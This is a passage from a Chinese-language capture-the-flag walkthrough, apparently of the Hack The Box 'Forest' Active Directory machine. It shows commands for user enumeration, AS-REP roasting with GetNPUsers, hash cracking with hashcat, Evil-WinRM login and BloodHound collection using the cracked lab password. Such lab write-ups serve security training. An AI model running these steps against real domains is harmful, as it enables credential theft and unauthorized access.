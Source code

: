 利用 enum4linux 枚举 windows 系统信息...（非常好的工具），可看到枚举了所有信息，其中包含了所有的用户名...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQXiae8MhkaSTdEK3LXJAZxiaUNbMDwW3mBWyyYRC45c6MicBEpPjbcbR3Q/640?wx_fmt=png)

```
cat user.txt | awk -F ":" '{print $5}' | awk -F " " '{print $1}' > userlist.txt
```

将所有信息复制到文本，通过 awk 筛选出重要信息即可... 清晰的得到了所有存在的用户名列表...

这里针对 AD 域的环境，还可以利用：

```
[rpcclient](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)（kali自带）
[JXplorer](http://jxplorer.org/)
```

MSF 的 smb_enumusers 模块等等方法枚举到信息...  

小伙伴们可以全部尝试一遍...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQIe2hLs2mBe5Ob5sBwwFbfgFFIZ79yEArsRcbpksZTZiaKpGPGpRebdg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQ7Du8iclX9qTNCoicqxO3HpgZZH7GoX21VFz7eOmgTT62AXrANmWz2Hqg/640?wx_fmt=png)

```
./GetNPUsers.py HTB/ -usersfile userlist.txt -no-pass -dc-ip forest.htb
```

通过整理好的用户名列表，利用：

```
[Kerberos](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
```

理论中介绍的 impacket-GetUserSPNs 进行了预身份认证...   （这里介绍 Kerberos 是里面还包含了很多方法，供大家累积）  

最后一个 svc-alfresco 用户返回了 hash 密匙凭证...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQEMXrZBEiaDLib4sibn8578UWlhiauKS9Oe3OTN2eVfEibUu0ZwNSd9HZ9cQ/640?wx_fmt=png)

```
hashcat -m 18200 hash.txt rockyou.txt --force
```

利用 hashcat 工具 rockyou 字典爆破 hash 值，获得了密码...（这里也可以利用开膛手爆破）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQz4c97tC9UmcqyerdibW4LEkuV6WSz6Vbric2aofbiaYtuMzicdNiaygMPJQ/640?wx_fmt=png)

通过 winRM 服务，利用 Evil-WinRM 工具进行成功登陆，并获得 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQLMHOT9jibBT1E2JGlOFyD0RcR2ibjklfpDTmtqD7lOSTxWcicZliaOf6AQ/640?wx_fmt=png)

```
Invoke-Bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

由于是 AD 域环境，最快获取 AD 域中特权关系利用：

```
[SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
```
